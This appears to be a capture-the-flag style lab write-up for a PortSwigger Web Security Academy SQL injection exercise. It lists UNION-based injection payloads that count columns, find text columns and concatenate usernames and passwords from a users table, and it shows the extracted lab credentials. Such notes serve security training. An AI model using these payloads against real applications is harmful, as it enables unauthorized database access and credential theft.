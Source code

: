 Notes: https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/sql-injection/lab-06/notes.txt

Lab:https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

video: https://www.youtube.com/watch?v=yRVYoqR9vrI

SQL Injection - Product category filter

End Goal: retrieve all usernames and passwords and login as the administrator user.

Analysis:
--------

(1) Find the number of columns that the vulnerable is using:
' order by 1-- -> not displayed on the page
' order by 2-- -> displayed on the page
' order by 3-- -> internal server error

3 - 1 = 2

(2) Find which columns contain text
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'-- ->**

(3) Output data from other tables

' UNION select NULL, username from users--
' UNION select NULL, password from users--

' UNION select NULL, version()--
-> PostgreSQL 11.11 (Debian 11.11-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

' UNION select NULL, username || '*' || password from users--

carlos*hx8lpsrznosr462ydnvh
administrator*35v95vbpktdv4c2nqgak
wiener*0qc4vtnx4o08sr5nsstf

script.py <url> 




